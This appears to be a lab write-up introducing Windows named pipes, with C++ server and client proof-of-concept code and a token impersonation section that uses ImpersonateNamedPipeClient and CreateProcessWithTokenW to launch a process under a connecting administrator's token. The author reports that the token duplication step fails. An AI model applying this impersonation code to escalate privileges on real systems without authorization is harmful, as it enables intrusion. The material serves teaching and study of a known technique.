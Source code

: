 # Windows NamedPipes 101 + Privilege Escalation

## Overview

A `pipe` is a block of shared memory that processes can use for communication and data exchange.

`Named Pipes` is a Windows mechanism that enables two unrelated processes to exchange data between themselves, even if the processes are located on two different networks. It's very simar to client/server architecture as notions such as `a named pipe server` and a named `pipe client` exist.

A named pipe server can open a named pipe with some predefined name and then a named pipe client can connect to that pipe via the known name. Once the connection is established, data exchange can begin.

This lab is concerned with a simple PoC code that allows:

* creating a single-threaded dumb named pipe server that will accept one client connection
* named pipe server to write a simple message to the named pipe so that the pipe client can read it

## Code

Below is the PoC for both the server and the client:

{% code-tabs %}
{% code-tabs-item title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	wchar_t message[] = L"HELL";
	DWORD messageLenght = lstrlen(message) * 2;
	DWORD bytesWritten = 0;

	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);
	
	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
	
	std::wcout << "Sending message: " << message << std::endl;
	WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);
	
	return 0;
}
```
{% endcode-tabs-item %}

{% code-tabs-item title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
	LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
	HANDLE clientPipe = NULL;
	BOOL isPipeRead = true;
	wchar_t message[MESSAGE_SIZE] = { 0 };
	DWORD bytesRead = 0;

	std::wcout << "Connecting to " << pipeName << std::endl;
	clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	
	while (isPipeRead) {
		isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
		std::wcout << "Received message: " << message;
	}

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Below shows the named pipe server and named pipe client working as expected:

![](../.gitbook/assets/screenshot-from-2019-04-02-23-44-22.png)

Worth nothing that the named pipes communication by default uses SMB protocol:

![](../.gitbook/assets/screenshot-from-2019-04-04-23-51-48.png)

Checking how the process maintains a handle to our named pipe `mantvydas-first-pipe`:

![](../.gitbook/assets/screenshot-from-2019-04-06-14-40-57.png)

Similary, we can see the client having an open handle to the named pipe:

![](../.gitbook/assets/screenshot-from-2019-04-06-14-59-41.png)

We can even see our pipe with powershell:

```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```

![](../.gitbook/assets/screenshot-from-2019-04-06-15-09-05.png)

## Token Impersonation

It is possible for the named pipe server to impersonate the named pipe client's security context by leveraging a `ImpersonateNamedPipeClient` API call which in turn changes the named pipe server's current thread's token with that of the named pipe client's token.

We can update the the named pipe server's code like this to achieve the impersonation - note that modifications are seen in line 25 and below: 

```cpp
int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	wchar_t message[] = L"HELL";
	DWORD messageLenght = lstrlen(message) * 2;
	DWORD bytesWritten = 0;

	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);
	
	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
	
	std::wcout << "Sending message: " << message << std::endl;
	WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);
	
	std::wcout << "Impersonating the client..." << std::endl;
	ImpersonateNamedPipeClient(serverPipe);
	err = GetLastError();	

	STARTUPINFO	si = {};
	wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
	PROCESS_INFORMATION pi = {};
	HANDLE threadToken = GetCurrentThreadToken();
	CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

	return 0;
}
```

Running the server and connecting to it with the client that is running under administrator@offense.local security context, we can see that the main thread of the named server pipe assumed the token of the named pipe client - offense\administrator, although the PipeServer.exe itself is running under ws01\mantvydas security context. Sounds like a good way to escalate privileges?

![](../.gitbook/assets/screenshot-from-2019-04-07-18-00-49.png)

Not so fast - unfortunately, I was not able to properly duplicate the token and use it to our advantage with the following code:

```cpp
	HANDLE 
		threadToken = NULL,
		duplicatedToken = NULL;

	OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, false, &threadToken);
	DuplicateTokenEx(threadToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicatedToken);
	err = GetLastError();
	CreateProcessWithTokenW(duplicatedToken, 0, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

For some reason, the DuplicateTokenEx call would return an error `1346 ERROR_BAD_IMPERSONATION_LEVEL` and I could not figure out what the issue was, so if you know, I would like to hear from you.

{% hint style="info" %}
Note that this technique is used by meterpreter when attempting to escalate privileges when `GetSystem` command is used.. The same technique is used in the `PowerUp`.
{% endhint %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/ipc/interprocess-communications" %}


